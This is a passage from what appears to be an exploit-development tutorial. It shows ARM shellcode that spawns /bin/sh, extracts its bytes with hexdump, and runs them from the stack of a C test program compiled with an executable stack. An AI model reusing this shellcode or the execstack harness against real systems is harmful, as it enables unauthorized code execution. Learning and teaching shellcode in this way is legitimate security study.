 	# hexdump -C shell.bin
	00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 0b 27  |....../...I@R@.'|
	00000010  c1 71 01 df 2f 62 69 6e  2f 73 68 41              |.q../bin/shA|
	0000001c
	
We can use [hexdump(1)][hexdump] to extract out the bytes into a usable format.

    $ hexdump -v -e '"\\\x" 1/1 "%02x"' shell.bin ; echo
    \x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\x0b\x27\xc1\x71\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41

And now we can try running our code from the stack of a normal program

	#include <stdio.h>
	#include <string.h>

	char *shellcode =
		"\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
		"\x02\xa0\x49\x40\x52\x40\x0b\x27"
		"\xc1\x71\x01\xdf\x2f\x62\x69\x6e"
		"\x2f\x73\x68\x41";

	int main(int argc, char **argv)
	{
			char buff[40];

			strcpy(buff, shellcode);

			printf("Length: %d\n", strlen(buff));

			(*(void(*)()) buff)();

			return 0;
	}

When building we need to tell the linker to allow an executable stack [execstack(8)][execstack]

    $ gcc shelltest.c -o shelltest -z execstack	
	
And run

	# ./shelltest
	Length: 28
	bash-4.4# exit
	exit



[objcopy]: http://man7.org/linux/man-pages/man1/objcopy.1.html
[hexdump]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[readelf]: http://www.man7.org/linux/man-pages/man1/readelf.1.html
[ld]: http://man7.org/linux/man-pages/man1/ld.1.html
[execstack]: http://man7.org/linux/man-pages/man8/execstack.8.html